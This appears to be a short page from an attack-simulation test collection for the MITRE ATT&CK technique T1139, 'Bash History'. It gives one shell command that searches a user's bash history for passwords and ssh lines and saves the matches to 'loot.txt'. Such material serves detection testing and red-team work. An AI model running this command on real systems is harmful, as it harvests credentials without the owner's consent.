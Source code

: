 # Bash History

MITRE ATT&CK Technique: [T1139](https://attack.mitre.org/wiki/Technique/T1139)


    cat ~/.bash_history | grep -e '-p ' -e 'pass' -e 'ssh' > loot.txt
